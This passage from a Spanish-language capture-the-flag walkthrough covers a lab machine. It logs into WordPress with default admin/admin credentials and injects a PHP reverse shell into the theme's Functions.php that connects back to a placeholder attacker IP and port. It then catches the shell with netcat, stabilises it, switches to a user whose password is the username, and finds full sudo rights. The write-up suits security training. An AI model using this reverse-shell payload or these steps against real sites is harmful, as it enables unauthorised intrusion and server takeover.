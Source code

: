 ```
[+] Data Sent: 6.768 MB
[+] Data Received: 70.162 MB
[+] Memory used: 226.145 MB
[+] Elapsed time: 00:02:44
```

Por lo que vemos las credenciales como bien dije antes son las de por defecto...

```
User = admin
Password = admin
```

Una vez dentro del `Wordpress` nos vamos a la pestaña `Themes` y en la casilla `Editor` dentro de este entorno veremos un archivo para editar llamado `Functions.php` el cual inyectaremos una `Reverse Shell` de la siguiente manera...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Una vez inyectado esto, le damos a guardar los cambios al boton `Update File` y estando a la escucha anteriormente...

```shell
nc -lvnp <PORT>
```

Cuando le demos a guardar automaticamente se nos creara una `Shell` con el usuario `www-data`, por lo que la sanitizaremos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Descubrimos un usuario llamado `marlinspike` si probamos a cambiarnos a ese usuario utilizando como contraseña el mismo nombre de usuario seremos ese usuario...

```
User = marlinspike
Password = marlinspike
```

Una vez siendo este usuario, si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for marlinspike on vtcsec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marlinspike may run the following commands on vtcsec:
    (ALL : ALL) ALL
```
